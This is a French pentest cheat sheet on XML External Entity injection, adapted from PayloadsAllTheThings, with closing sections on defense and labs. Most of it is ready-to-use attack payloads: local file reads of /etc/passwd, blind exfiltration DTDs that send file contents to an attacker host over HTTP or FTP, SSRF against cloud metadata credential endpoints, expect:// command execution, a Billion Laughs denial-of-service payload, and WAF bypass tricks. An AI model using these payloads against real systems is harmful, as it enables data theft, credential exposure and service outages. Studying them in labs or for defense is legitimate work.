

# 📄 XXE — XML External Entity

> [!info] **En 1 phrase**
> XXE = abuser du **DOCTYPE/entités XML** d'un parseur pour lui faire lire des **fichiers locaux**,
> scanner l'**interne (SSRF)** ou exfiltrer des données **out-of-band**, voire exécuter du code (**RCE**).
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Beaucoup d'apps (API SOAP, upload de fichiers, parsers DOCX/SVG, config XML…) traitent du XML avec
> **DTD et entités externes activées par défaut** (`libxml`, `DocumentBuilder`, certaines libs .NET/Python).
> Le parseur va **chercher et résoudre** toute ressource `SYSTEM`. Un parseur **JSON** n'exécute pas de DTD → la vulnérabilité disparaît.

---

## 📚 Rappels XML — DOCTYPE & ENTITY

Le `DOCTYPE` se déclare **avant la racine** du document ; les entités se définissent dedans.

| Type d'entité | Syntaxe | Utilisable |
|---|---|---|
| **Interne** | `<!ENTITY name "valeur">` | contenu du document |
| **Externe** | `<!ENTITY name SYSTEM "URI">` | contenu du document (`&name;`) |
| **Paramètre** | `<!ENTITY % name "valeur">` ou `SYSTEM "URI"` | **uniquement dans la DTD** (`%name;`) |

> [!tip] 💡 **Test de base** — si `<lastName>` contient `Doe` dans la réponse, les entités sont **traitées** → XXE potentiel.

```xml
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
</userInfo>
```

> [!warning] ⚠️ `SYSTEM` et `PUBLIC` sont presque synonymes : `<!ENTITY x PUBLIC "Any TEXT" "URL">` fonctionne aussi. Définir `<!ELEMENT foo ANY>` est optionnel mais évite les erreurs de validation.

---

## 🕵️ Détection

1. **Repérer du XML** : `Content-Type: application/xml`/`text/xml` ; endpoints SOAP ; erreurs `SAXParseException`/`org.xml.sax...` ; uploads `.xml`, `.svg`, `.docx`, `.xlsx`, `.pdf` (probablement parsés en XML).
2. **Confirmer le parsing** (entité interne) — si la réponse contient `XXXXEDET`, les entités sont résolues :

```xml
<?xml version="1.0" ?>
<!DOCTYPE replace [<!ENTITY exemple "XXXXEDET">]>
<recherche>&exemple;</recherche>
```

3. **Test in-band** :

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/hostname">]>
<root>&xxe;</root>
```

4. **Test blind (callback)** — un hit HTTP sur le serveur attaquant = **Blind XXE** :

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://[ATTACKER.DOMAIN]/x"> %ext;
]>
<r></r>
```

> [!tip] 💡 **XML vs JSON** : si l'app parse du JSON, forcer le `Content-Type` en `application/xml` (certaines libs — Jackson XML, .NET — acceptent les deux formats) et adapter la structure du body :

```http
POST /search HTTP/1.1
Host: target
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?>
<root><search>name</search><value>data</value></root>
```

---

## 📂 Lecture de fichiers

```xml
<!-- Linux -->
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<root>&test;</root>

<!-- Variante ISO-8859-1 / ELEMENT -->
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>

<!-- Windows -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///C:/Windows/win.ini">]>
<foo>&xxe;</foo>
```

**Wrappers PHP** — base64 pour lire les fichiers contenant du XML / des caractères illégaux :

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts><contact><name>Jean &xxe; Dupont</name></contact></contacts>
```

**RCE via `expect://`** (PHP + extension `expect`) : `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id">]><foo>&xxe;</foo>`

**Protocole `data://`** : `<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>`

> [!warning] ⚠️ Les fichiers **binaires** et ceux contenant `&`/`<` ne passent pas in-band : utiliser `php://filter/convert.base64-encode` ou l'exfiltration **FTP** (plus fiable que HTTP pour les gros fichiers).

---

## 🌐 XXE → SSRF

L'entité externe pointe vers une **URL interne** → le serveur joue le rôle de client HTTP.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

**Cloud metadata (AWS)** :

```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
<foo>&xxe;</foo>
```

**Scan réseau interne (port)** : `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://10.0.0.1:8080/">]><foo>&xxe;</foo>`

> [!tip] 💡 **Méthodo** : ① tester `http://169.254.169.254/` (cloud), `http://127.0.0.1:PORT/` (services locaux) puis la plage interne ; ② comparer **réponses/erreurs** (contenu ≠ pour port ouvert vs fermé, timeout, statut) ; ③ combo XXE→SSRF : relayer vers des services authentifiés. Vecteur détaillé : [[SSRF|🌐 SSRF]].

---

## 💥 XXE → RCE

- **`expect://` (PHP + extension expect)** : `<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id">]><foo>&xxe;</foo>`
- **SVG avec `expect`** :

```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls" width="200" height="200"></image>
</svg>
```

- **XSLT** : si le serveur applique une **transformation XSLT** (XSLTProcessor, Saxon…), injecter une feuille XSL qui exécute du code (`xsl:value-of` + extension). In-band, dépend de l'implémentation.

> Le RCE direct est rare (`expect` absent par défaut). Le plus courant : exfiltrer la sortie d'une commande via une **entité paramètre** vers un serveur `ftp://`/`http://` contrôlé (voir Blind). Serveur de réception : `xxeserv -o files.log -p 2121 -w -wd public -wp 8000` (staaldraad/xxeserv).

---

## 🙈 Blind XXE (OOB)

> **Blind = pas de retour dans la réponse.** On exfiltre par **requêtes sortantes** vers un serveur contrôlé.
> Il faut un **DTD externe** : une DTD **interne** ne permet pas de référencer `%file;` dans la définition d'une autre entité paramètre (concaténation impossible).

### 1. Confirmer : ping HTTP

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://[ATTACKER.DOMAIN]/x"> %ext;
]>
<r></r>
```

> In-band alternative : `<!DOCTYPE root [<!ENTITY test SYSTEM 'http://[ATTACKER.DOMAIN]'>]><root>&test;</root>`

### 2. Exfiltration complète (payload + evil.dtd)

**Payload envoyé à la cible :**

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://[ATTACKER.DOMAIN]/evil.dtd">
<data>&send;</data>
```

**`evil.dtd` hébergé chez l'attaquant (HTTP, port 80/8000) :**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://[ATTACKER.DOMAIN]/?%file;'>">
%all;
```

> [!tip] 💡 **Pourquoi le DTD externe en 2 étapes ?** ① le payload charge `%all;` depuis notre serveur, ② `%all;` définit `send` qui requête `/?contenu_fichier`, ③ notre serveur reçoit le contenu dans l'URL. On **change juste le DTD** pour changer de fichier, sans reconstruire le payload.

### 3. Variante PHP filter (base64, évite les caractères interdits dans l'URL)

```xml
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ENTITY % sp SYSTEM "http://10.10.10.10/dtd.xml">
%sp;
%param1;
]>
<r>&exfil;</r>
```

**`dtd.xml` :**

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://10.10.10.10/dtd.xml?%data;'>">
```

### 4. Variante FTP (fichiers volumineux)

**`xxe.dtd` :**

```xml
<!ENTITY % d SYSTEM "file:///etc/passwd">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://ATTACKER:2121/%d;'>">
```

> [!warning] ⚠️ Sur la plupart des parsers, seul le **premier flux** FTP est émis → souvent la **1ʳᵉ ligne**. Répéter l'extraction morceau par morceau (offset selon la lib) ou passer par `php://filter` + base64.

### 5. Error-based (retour dans le message d'erreur)

> Si l'app **affiche les erreurs XML**, on force une erreur dont le chemin contient le contenu du fichier.

**Payload :**

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://[ATTACKER.DOMAIN]/ext.dtd">
    %ext;
]>
<message></message>
```

**`ext.dtd` :**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

> [!info] 💡 **Déroulé** — `%file;` = contenu du fichier → `%eval;` définit `error` qui référence un fichier **inexistant** (`file:///nonexistent/<passwd>`) → erreur `File not found` avec le **chemin** affiché = fichier divulgué. `&#x25;` = `%` échappé dans la définition d'entité.

### 6. Error-based avec DTD locale (fetch sortants bloqués)

> Si `http://` vers l'extérieur est bloqué, on réutilise un **DTD local du système** dont une entité est injectable. Confirmer d'abord que l'erreur révèle le nom du fichier : `<!ENTITY % local_dtd SYSTEM "file:///abcxyz/"> %local_dtd;`.

**Linux** — DTDs : `/usr/share/xml/fontconfig/fonts.dtd`, `/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd`, `/usr/share/xml/svg/svg10.dtd`, `/usr/share/xml/svg/svg11.dtd`, `/usr/share/yelp/dtds/docbookx.dtd` (lister avec `locate .dtd`). `fonts.dtd` expose l'entité injectable `%constant` (ligne 148) :

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```

**Windows** — DTD locale `file:///C:\Windows\System32\wbem\xml\cim20.dtd` (entité `%SuperClass` injectable) :

```xml
<!DOCTYPE doc [
    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>
        <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
      <!ENTITY test "test"'
    >
    %local_dtd;
  ]><xxx>anything</xxx>
```

### 7. XInclude (quand on ne contrôle PAS tout le XML / pas de DOCTYPE)

> Quand la valeur d'un champ (ex: nom de produit) est injectée **dans** le document XML mais qu'on ne peut **pas modifier le DOCTYPE**, on utilise `xi:include` — aucune DTD nécessaire. `parse="text"` = contenu brut ; `parse="xml"` = traité comme du XML. Se déclenche aussi sur **upload de fichiers** interprétés en XML.

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

---

## 💣 Denial of Service (Billion Laughs)

> [!warning] ⚠️ **Jamais en prod** : expansion exponentielle qui peut tuer le service / le serveur.

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

> Variante **Parameters Laugh** (interprétation différée des entités paramètre, S. Pipping) : `%pe_1 "<!---->"`, `%pe_2 "&#37;pe_1;<!---->&#37;pe_1;"`, puis expansion à chaque niveau (`&#37;` = `%`). Même effet, contourne certains parsers.

---

## 🗂️ XXE dans les fichiers exotiques

### SVG (upload d'image)

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

**OOB via rasterization** (`xxe.svg` envoyé à la cible + `xxe.xml` hébergé) :

```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
<!ELEMENT svg ANY >
<!ENTITY % sp SYSTEM "http://10.10.10.10:8080/xxe.xml">
%sp;
%param1;
]>
<svg viewBox="0 0 200 200" version="1.2" xmlns="http://www.w3.org/2000/svg" style="fill:red">
  <text x="15" y="100" style="fill:black">XXE via SVG rasterization</text>
  <flowRoot font-size="15">
    <flowRegion><rect x="0" y="0" width="200" height="200"/></flowRegion>
    <flowDiv><flowPara>&exfil;</flowPara></flowDiv>
  </flowRoot>
</svg>
```

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'ftp://10.10.10.10:2121/%data;'>">
```

### DOCX / XLSX / PPTX (Open XML = un zip de XML)

Structure à cibler : `[Content_Types].xml`, `_rels/.rels`, `/word/document.xml` (DOCX) · `/ppt/presentation.xml` (PPTX) · `/xl/workbook.xml` (XLSX).

```bash
unzip xxe.docx -d XXE          # extraire
# ... injecter le payload dans word/document.xml ...
cd XXE && zip -r -u ../xxe.docx *   # rezipper (⚠️ zip -u, PAS 7z)
```

> [!warning] ⚠️ Utiliser `zip -u` (Info-ZIP), **pas** `7z u`/`7za u` : la recompression 7z casse la signature et les parseurs Excel/Office refusent le fichier. Vérifier : `file xxe.xlsx` → `Microsoft Excel 2007+`.

**XLSX — payload dans `xl/workbook.xml` :** (variante équivalente : `xl/sharedStrings.xml`)

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.10.10.10:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlformats.org/officeDocument/2006/relationships">
```

> [!tip] 💡 Le **DTD externe** évite de reconstruire le doc à chaque fichier cible : on construit le doc **une fois**, puis on change le `xxe.dtd`. **FTP** au lieu de HTTP = fichiers plus gros récupérables.

### SOAP (le DOCTYPE peut passer dans un CDATA)

```xml
<soap:Body>
  <foo>
  <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://10.10.10.10:22/"> %dtd;]><xxx/>]]>
  </foo>
</soap:Body>
```

### RSS / Atom / SAML / PDF

- **RSS/Atom** : c'est du XML → même payload qu'en classique, injecté dans un champ du flux.
- **SAML** : assertions XML parsées côté SP → XXE OOB (ex: `SAMLResponse`).
- **PDF** : possible (via `oxml_xxe`, expérimental) — le PDF contient du XML interne.
- **Config XML** : fichiers de config, parsers de licences, `.dtd`, `.plist`…

> 📦 **oxml_xxe** (BuffaloWill) et **docem** (whitel1st) automatisent l'injection dans DOCX/XLSX/PPTX/ODT/ODG/ODP/ODS/SVG/XML/PDF/JPG/GIF.

---

## 🧱 Bypass WAF / filtres

- **Blocage du DOCTYPE** : les entités paramètres déclenchent un fetch sans DOCTYPE visible dans le corps final — `<?xml version="1.0"?><!DOCTYPE r [<!ENTITY % a SYSTEM "http://ATTACKER/">%a;]><r/>`.
- **Casse / normalisation** : XML strict = sensible à la casse, mais certains parseurs permissifs acceptent `<!doctype`, `<!Doctype…>`, `<!ENTITY`, `<!DOCTYPE SYSTEM>` sans URL, espaces multiples, `SYSTEM` en minuscules. Nouvelles lignes/espaces insérés : `<!DOCTYPE\nroot\n[\n<!ENTITY x SYSTEM "file:///etc/passwd">\n]>\n<root>&x;</root>`.
- **Encodage de caractères** : `&#x25;`/`&#37;` (`%`), `&#x22;` (`"`), `&#x27;` (`'`), `&#x26;#x25;`.
- **Encodage de tout le document (UTF-16)** : les WAF qui inspectent en UTF-8 ratent l'UTF-16/32. Le parseur détecte l'encodage via le **BOM** ou la déclaration.

```bash
cat utf8exploit.xml | iconv -f UTF-8 -t UTF-16BE > utf16exploit.xml
# BOM UTF-16BE = FE FF 00 3C 00 3F 00 78 00 6D ...  (UTF-8 = 3C 3F 78 6D)
```

- **XML 1.1** : `<?xml version="1.1"?><!DOCTYPE r [<!ENTITY x SYSTEM "file:///etc/passwd">]><r>&x;</r>`.
- **Endpoints JSON → XML** : changer le `Content-Type` de `application/json` vers `application/xml` (body converti). Si la réponse change (contenu, erreur `SAXParseException`), le parseur XML tourne.

| `application/json` | `application/xml` |
|---|---|
| `{"search":"name","value":"test"}` | `<?xml version="1.0" encoding="UTF-8" ?><root><search>name</search><value>data</value></root>` |

- **Schema-less / no validation** : certains parseurs ne valident pas le schéma — le `<!DOCTYPE>` est ignoré par la validation mais **traité** si les entités externes ne sont pas désactivées. Tester sans `<!ELEMENT>`.

---

## 🛡️ Défense

> Règle d'or : **désactiver les entités externes et la résolution de DTD** dans le parseur, ou **ne pas parser de XML** (préférer JSON).

```php
libxml_disable_entity_loader(true);          // PHP < 8.0 (PHP 8+ : entités externes non résolues par défaut)
$xml = simplexml_load_string($input, 'SimpleXMLElement', LIBXML_NONET);
```

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);          // interdit le DOCTYPE
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);        // pas d'entités externes
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
dbf.setExpandEntityReferences(false);
```

```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;   // .NET : ou Ignore (XMLReader.Create)
```

```py
from defusedxml import minidom   # Python : defusedxml = bibliothèque de référence
```

- **Whitelist des protocoles** (jamais `file://`, `php://`, `expect://`, `ftp://` — uniquement HTTP(S) interne).
- **Pas de DTD** si le cas d'usage ne l'exige pas ; validation stricte du schéma.
- **Masquer les erreurs** XML (tue l'error-based) et logger les accès sortants anormaux.

---

## 🧰 Outils

| Outil | Usage |
|---|---|
| **[XXEinjector](https://github.com/enjoiz/XXEinjector)** | Exploitation auto (in-band, OOB HTTP/FTP, error-based, brute-force de fichiers) |
| **[Burp Collaborator](https://portswigger.net/burp/documentation/collaborator)** | Client OAST pour confirmer et exfiltrer (ou Interactsh) |
| **[xxeserv](https://github.com/staaldraad/xxeserv)** | Mini serveur HTTP + FTP pour recevoir les payloads XXE |
| **[230-OOB](https://github.com/lc/230-OOB)** | Serveur OOB XXE (FTP) + génération de payloads (http://xxe.sh/) |
| **[oxml_xxe](https://github.com/BuffaloWill/oxml_xxe)** | Injection XXE dans DOCX/XLSX/PPTX/ODT/SVG/PDF/… |
| **[docem](https://github.com/whitel1st/docem)** | Embarquer XXE/XSS dans docx/odt/pptx… |
| **[dtd-finder](https://github.com/GoSecure/dtd-finder)** | Trouver des DTD locales et générer les payloads error-based |
| **[wwe](https://github.com/bytehope/wwe)** | PoC XXE PHP avec seulement `LIBXML_DTDLOAD` ou `LIBXML_DTDATTR` |
| **[OWASP XXE Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)** | Référence défense par langage/parser |

```bash
xxeserv -o files.log -p 2121 -w -wd public -wp 8000   # réception FTP + hébergement du DTD
python3 -m http.server 8000                            # simple serveur pour evil.dtd
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Désactivation des entités externes** | LA défense : `disallow-doctype-decl`, `external-general-entities=false`, `libxml_disable_entity_loader` |
| **Pas de DOCTYPE autorisé** | Rejeter tout document contenant un `DOCTYPE` (souvent inutile pour l'app) |
| **JSON / sérialisation** | Éviter le XML quand possible (Jackson, Gson, .NET JSON) |
| **Whitelist de protocoles** | Autoriser uniquement HTTP(S) interne ; interdire `file://`, `expect://`, `ftp://`, `php://`, `data://` |
| **Masquer les erreurs** | Messages génériques → tue l'error-based |
| **Validation du schéma** | XSD strict ; rejeter les documents sans schéma ou avec inconnues |
| **Surveillance** | Logs des requêtes sortantes inattendues (SSRF), fichiers `.dtd` suspects, erreurs SAX |
| **Détection** | `file://` / `http://` dans le DOCTYPE, `&xxe;`, `%ext;`, `xi:include`, encodages UTF-16, changement de Content-Type |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Ordre logique d'attaque**
> 1. Confirmer le parsing XML (entité interne `Doe`).
> 2. In-band `file:///etc/passwd` → si rien, **Blind** : ping OAST.
> 3. Blind → DTD externe + FTP/HTTP pour exfiltrer, ou **error-based** si les erreurs sont visibles.
> 4. Pas de contrôle du DOCTYPE → **XInclude**.
> 5. Upgrade : SSRF interne / cloud metadata → RCE (`expect://`, XSLT) → pivot.

> [!warning] ⚠️ **In-band vs OOB**
> - **In-band** : le contenu revient dans la réponse XML de l'app (simple, fichiers lisibles uniquement).
> - **OOB/Blind** : rien ne revient, on exfiltre par un canal sortant (HTTP/FTP/DNS) — quasiment toujours via **entités paramètres** + **DTD externe**. Une DTD **interne** ne permet pas de chaîner `%file;` dans une autre entité.

> [!warning] ⚠️ **Pièges classiques**
> - `expect://` et `php://` ne marchent que sur PHP ; `file:///C:/...` pour Windows (pas `file://C:\...`).
> - Les fichiers avec `&`, `<`, retours à la ligne cassent l'in-band → **base64** (`php://filter`) ou **FTP**.
> - FTP : souvent **1ʳᵉ ligne seulement** → découper le fichier ou répéter l'extraction.
> - DTD interne = pas de concaténation entre entités paramètres → **DTD externe** obligatoire pour OOB/error-based.
> - `zip -u` obligatoire pour DOCX/XLSX, **jamais `7z u`** (signature cassée → fichier illisible par Office).
> - Les requêtes vers `http://` (pas `https://`) échouent parfois selon la lib/le proxy → tester les deux.
> - Billion Laughs = **service à terre**, jamais en prod/CTF partagé.
> - Ports de réception : **80/8000** (HTTP, DTD + exfil), **2121** (FTP, exfil volumineuse), **53** (DNS OAST).

> [!tip] 💡 **DTD en 2 étapes (résumé)**
> 1ʳᵉ étape : le payload cible charge `SYSTEM "http://ATTAQUANT/evil.dtd"` et déclenche `%ext;`.
> 2ᵉ étape : `evil.dtd` définit `%file;` → `%all;`/`%param1;` → `%exfil;` qui requête notre serveur avec le contenu dans l'URL. Changer de fichier = **éditer le DTD**, pas le payload.

---

## 🧪 Labs

- PortSwigger Web Security Academy — XXE : https://portswigger.net/web-security/xxe
  - Retrieve files : `lab-exploiting-xxe-to-retrieve-files` · SSRF : `lab-exploiting-xxe-to-perform-ssrf` · XInclude : `lab-xinclude-attack` · Image upload : `lab-xxe-via-file-upload`
  - Blind OOB : `blind/lab-xxe-with-out-of-band-interaction` · OOB via parameter entities : `blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities`
  - Blind exfil via external DTD : `blind/lab-xxe-with-out-of-band-exfiltration` · error messages : `blind/lab-xxe-with-data-retrieval-via-error-messages` · local DTD : `blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd`
- Root-Me — XML External Entity : https://www.root-me.org/en/Challenges/Web-Server/XML-External-Entity
- GoSecure — Advanced XXE Exploitation workshop : https://gosecure.github.io/xxe-workshop

---

## 🔗 Liens

- [[Injection SQL|💾 SQLi]]
- [[SSRF|🌐 SSRF]]
- [[LFI et RFI|📂 LFI / RFI]]
- [[Injection de commandes|🐚 Injection de commandes]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — XXE Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
- 🛡️ OWASP : [XML External Entity Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html)
